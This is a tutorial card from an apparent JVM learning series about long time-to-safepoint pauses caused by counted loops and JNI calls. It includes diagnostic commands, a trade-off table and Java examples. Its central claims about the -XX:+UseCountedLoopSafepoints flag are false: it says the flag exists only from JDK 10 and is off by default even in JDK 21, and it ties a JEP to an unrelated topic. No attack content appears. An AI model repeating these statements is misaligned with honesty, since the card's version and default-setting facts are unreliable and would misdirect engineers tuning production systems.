

---

### 🚨 Failure Modes

**Failure 1 - Array Processing Stall:**

**Symptom:** Periodic 5-30s application pauses. GC log shows fast GC (50ms) but TTSP of 20+ seconds. One thread always the last to reach safepoint.

**Root cause:** Thread processing large array in counted `for` loop. C2-compiled without safepoint polls.

**Diagnostic:**

```bash
# Enable safepoint logging:
-Xlog:safepoint=info:file=safepoint.log:time
# Look for: "Safepoint ... TTSP: 25000ms"
# Identify slow thread: "Thread 0x... not at SP"
# Profile during stall (async-profiler):
asprof -e wall -d 30 -t <pid>
# Shows which thread is running (not blocked)
```

**Fix:**

```bash
# JVM-level fix (JDK 10+):
-XX:+UseCountedLoopSafepoints
# Or code-level fix:
# Replace: for(int i=0; i<arr.length; i++)
# With: for(Object o : collection) (iterator)
```

**Failure 2 - JNI Call Masking Safepoint:**

**Symptom:** Similar to counted loop stall, but the thread is in JNI (native) code. `-XX:+UseCountedLoopSafepoints` does not help.

**Root cause:** JNI calls do not poll safepoints. Long-running native methods block TTSP identically to counted loops.

**Diagnostic:**

```bash
# Thread dump shows thread "in native":
jcmd <pid> Thread.print | grep -A5 "in native"
# Safepoint log shows JNI thread as straggler
```

**Fix:** Split long JNI operations into shorter calls that return to Java (allow safepoint between calls). Or redesign native code to be shorter.

---

### 🔬 Production Reality

This pattern is the single most common cause of unexplained multi-second JVM pauses that are NOT caused by GC itself. Teams see "GC pause" of 25 seconds in their metrics, blame GC tuning, and spend weeks adjusting heap sizes - when the actual problem is 25 seconds of TTSP plus 50ms of actual GC. The fix is a single JVM flag (`-XX:+UseCountedLoopSafepoints`) that should arguably be the default. It is not the default because it adds 1-5% overhead to tight numeric loops (scientific computing, financial calculations).

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Default (no poll) | UseCountedLoopSP   | Manual restructure  |
| --------------- | ----------------- | ------------------ | ------------------- |
| Tight loop perf | Maximum           | 1-5% slower        | Varies              |
| TTSP bounded    | NO (seconds)      | YES (microseconds) | YES (if done right) |
| Code changes    | None              | None (JVM flag)    | Required            |
| JDK requirement | All               | 10+                | All                 |
| Risk level      | High (unbounded)  | Low (bounded)      | Low (bounded)       |

---

### ⚡ Decision Snap

**ENABLE UseCountedLoopSafepoints WHEN:**

- Any production JVM with latency sensitivity.
- Unexplained multi-second TTSP observed.
- Code contains counted loops over large arrays.

**KEEP DEFAULT (no poll) WHEN:**

- Scientific computing / HPC where loop throughput is the SLA.
- No latency sensitivity (batch processing, offline).
- Verified that all counted loops are short (< 10K iterations).

**RESTRUCTURE LOOP WHEN:**

- JDK 8/9 without UseCountedLoopSafepoints support.
- Specific loop identified as the problem.
- Cannot accept even 1-5% loop throughput overhead.

---

### ⚠️ Top Traps

| #   | Misconception                                  | Reality                                                                                                                            |
| --- | ---------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| 1   | "Long GC pauses = GC problem"                  | TTSP (time before GC starts) can be 100x longer than GC itself. Check safepoint logs, not just GC logs.                            |
| 2   | "All loops have safepoint polls"               | Only UNCOUNTED loops. C2 removes polls from `for(int i=0; i<n; i++)` style loops for performance.                                  |
| 3   | "This only matters for billion-element arrays" | Even 1M elements at 100ns/element = 100ms TTSP. 10M elements at 1us/element = 10s TTSP. Scale matters.                             |
| 4   | "UseCountedLoopSafepoints kills performance"   | 1-5% overhead on affected loops. For most services (not HPC), this is acceptable for bounded TTSP.                                 |
| 5   | "Thread.yield() in the loop helps"             | Only if NOT inlined by C2. If C2 inlines yield() into the counted loop, the poll may still be absent. Use method call or iterator. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-055 Safepoints - What Stops the World - fundamental safepoint concept
- JVM-080 Safepoint Bias and Time-To-Safepoint Latency - TTSP measurement and diagnosis

**THIS:** JVM-093 The Billion-Dollar Safepoint Bug Pattern

**Next steps:**

- JVM-079 JIT Code Cache and Deoptimization - C2 optimization decisions that cause this
- JVM-091 Project Loom and Virtual Thread Scheduling - carrier pinning is analogous

---

**The Surprising Truth:**

The "fix" (`-XX:+UseCountedLoopSafepoints`) has existed since JDK 10 (2018) but is NOT the default even in JDK 21 (2023). The JDK team considers the 1-5% throughput overhead unacceptable as a default for all workloads. This means EVERY JDK deployment with latency sensitivity should explicitly add this flag - but most teams do not know it exists. You can verify the issue exists in your JVM by running a simple test: a counted loop with 100M iterations will show measurable TTSP in safepoint logs. This single flag prevents an entire class of mysterious production pauses.

**Further Reading:**

- Aleksey Shipilev, "JVM Anatomy Quark #22: Safepoint Polls" (2018)
- JEP 404: Generational Shenandoah (includes universal loop strip-mining discussion)
- OpenJDK mailing list: "Loop strip mining" design discussion (2017)

**Revision Card:**

1. Counted loops (`for(int i=0;i<n;i++)`) have NO safepoint poll in C2. One long loop blocks entire JVM at safepoint.
2. Fix: `-XX:+UseCountedLoopSafepoints` (JDK 10+). Adds poll every ~1024 iterations. 1-5% loop overhead.
3. Diagnosis: `-Xlog:safepoint=info` shows TTSP. If TTSP >> GC time: look for counted loops or JNI calls.

**BAD:**

```java
// Innocent-looking loop blocks safepoint 10s
int sum = 0;
for (int i = 0; i < hugeArray.length; i++) {
    sum += process(hugeArray[i]); // 100ns each
    // NO safepoint poll (counted loop, C2)
    // 100M elements x 100ns = 10 SECONDS
    // Entire JVM frozen waiting for this thread
}
// Other 199 threads: stopped for 10s
// GC log says: "GC pause 50ms" (misleading)
// Actual app pause: 10.05s (TTSP + GC)
```

**GOOD:**

```java
// Option 1: JVM flag (recommended)
// -XX:+UseCountedLoopSafepoints
// Same code, safepoint poll every ~1024 iters
// TTSP bounded to ~100us

// Option 2: Restructure to uncounted loop
int sum = 0;
Iterator<Integer> iter = list.iterator();
while (iter.hasNext()) {
    sum += process(iter.next());
    // Safepoint poll at back-edge (uncounted)
    // TTSP bounded: thread responds in <1ms
}
```
